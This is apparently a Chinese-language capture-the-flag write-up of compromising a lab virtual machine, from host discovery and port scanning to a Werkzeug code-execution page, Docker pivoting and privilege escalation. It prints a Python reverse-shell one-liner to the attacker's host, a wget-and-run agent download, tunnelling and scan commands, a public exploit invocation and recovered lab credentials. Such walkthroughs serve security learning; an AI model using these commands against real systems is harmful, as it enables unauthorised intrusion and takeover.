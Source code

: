 # <font color = "#749DD6">第一次打靶</font>

### <font color = "#749DD6">0x01 环境</font>

靶机: 

攻击机: Linux kali 5.18.0-kali2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali1 (2022-06-20) x86_64 GNU/Linux 

IP:192.168.1.14

### <font color = "#749DD6">0x02 主机发现</font>

由于靶机和攻击机是在同一网段，所以采用arp-scan命令查看靶机IP

```
arp-scan -l
```

<img src=".\pictures\1-1.jpg">

其中`192.168.1.15    08:00:27:f4:1d:65       PCS Systemtechnik GmbH`是陌生IP,所以推测为靶机。

### <font color = "#749DD6">0x03 端口扫描</font>

```
nmap -sV -p- 192.168.1.15
```

<img src=".\pictures\1-2.png">

其中5000端口运行着python的web框架Werkzeug。我们来看看

<img src=".\pictures\1-3.png">

### <font color = "#749DD6">0x04 路径爆破</font>

我尝试用xray扫了一下，结果就是没什么结果，所以另寻僻静。用`dirsearch`爆破下路径，发现有新的收获

```
dirsearch -u "http://192.168.1.15:5000"
```

<img src=".\pictures\1-4.png">

访问后，发现是个代码执行页面

<img src=".\pictures\1-5.png">

这时就可以利用python进行反向shell连接到我的kali，首先在kali中开启监听

```
nc -nvlp 4444
```

然后在网页中输入

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

<img src=".\pictures\1-6.png">

执行后kali接收到反弹shell

<img src=".\pictures\1-7.png">

利用id命令发现时root用户，但ls一下发现存在Dockerfile推测进入的是个Docker，然后利用

```
ls /.dockerenv
or
cat /proc/1/cgroup
```

如果都存在内容，那么肯定就是个docker了。发现其ip地址为172.17.0.3

，接着进行内网主机发现

```
for i in $(seq 0 254); do for j in $(seq 1 254); do ping -c 1 172.17.$i.$j; done done | grep time
```

发现了.1和.2主机存活

由于直接在这两台主机扫描不太容易，所以需要利用内网穿透技术使kali能连接到docker虚拟机。这里利用venom

首先在kali中执行

```
./admin_linux_x64 -lport 6666
```

然后再利用kali运行http服务，在靶机中使用wget将使用代理的另一个文件传过去

```
python3 -m http.server 80 
```

靶机中

```
wget http://192.168.1.14/agent_linux_x64
./agent_linux_x64 -rhost 192.168.1.14 -rport 6666
```

<img src=".\pictures\1-8.png">

建立socks代理，让linux主机通过代理访问靶机。

```
socks 2801
```

<img src=".\pictures\1-9.png">

配置代理链

```
vi /etc/proxychains4.conf
```

到这里代理就算配置完成了。

```
proxychains nmap -sV -sT -Pn 172.17.0.1
```



<img src=".\pictures\1-10.png">

发现172.17.0.1和192.168.1.15是同一台主机，只不过172.17.0.1是对容器内的IP,192.168.1.15是对外部的IP。



然后使用同样的手法扫描下172.17.0.2

<img src=".\pictures\1-11.png">

搜索服务和漏洞

<img src=".\pictures\1-12.png">

先尝试第一个exp

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .

proxychains python2 36337.py 172.17.0.2

```

<img src=".\pictures\1-13.png">

发现里面存在password文件，存放账号密码

```
john
1337hack
```

### <font color = "#749DD6">0x05 利用内核漏洞提权</font>

利用账号密码登录，发现成功登录。然后进行提权

<img src=".\pictures\1-14.png">

<img src=".\pictures\1-15.png">

<img src=".\pictures\1-16.png">

提权成功！
